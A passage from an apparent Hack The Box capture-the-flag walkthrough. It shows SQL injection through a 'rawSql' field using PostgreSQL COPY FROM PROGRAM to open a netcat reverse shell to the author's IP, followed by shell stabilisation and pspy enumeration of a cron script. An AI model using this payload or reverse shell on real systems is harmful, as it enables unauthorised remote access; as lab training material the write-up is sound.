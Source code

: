 I went back to burpsuite and inserted the command with my ip and port where sqlmap inserted their payload:

{% code overflow="wrap" %}
```
"rawSql":"select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;;COPY shell FROM PROGRAM './rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.74 1234 >/tmp/f';--",
```
{% endcode %}

I upgraded my reverse shell from a basic one to a stabilized one:

> python3 -c 'import pty;pty.spawn("/bin/bash")'
>
> ctrl+z
>
> stty raw -echo; fg
>
> export TERM=xterm
>
> Press enter

Now we have a fully functioning shell we can properly enumerate.

The next question is;

6. What is the full path to the script that is running as UID 1000 every two minutes?

We need to analyze a script that runs every two minutes, I am going to use pspy for this, I upload pspy32 from my local machine and view the output. After waiting a bunch of commands are executed by UID 1000 which is user juno. First they execute a script called shadow-simulation.sh in their directory whcih removes the file /dev/shm/shadow.data and runs the binary shadow on /dev/shm/network.yml. This network-simulation.yml is a file we have write access to.

<div data-full-width="true">

<figure><img src="HacktheBox/.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

</div>

Below is the network-simulation.yml file:

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
```
